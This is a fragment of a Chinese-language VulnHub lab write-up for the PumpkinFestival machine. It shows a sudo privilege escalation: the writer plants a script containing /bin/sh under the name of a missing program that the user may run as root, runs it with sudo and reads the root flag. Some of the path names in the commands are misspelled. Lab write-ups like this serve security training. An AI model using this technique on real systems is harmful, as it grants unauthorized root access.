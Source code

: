 ![](../../../../../assets/img/安全/实验/VulnHub/Mission-Pumpkin/PumpkinFestival/19.png)

可以已 root 权限运行 alohomora 程序,但是并没有找到这个文件，那直接创建个可提权的程序即可

```bash
mkdir pumpkins
echo "/bin/sh" > /home/jack/pumpkins/alohomora
chmod +x /home/jack/pumkins/alohomora
cd /home/jack/pumkins/
sudo ./alohomora
id
cd /root
ls
cat PumpkinFestival_Ticket
```

提权成功
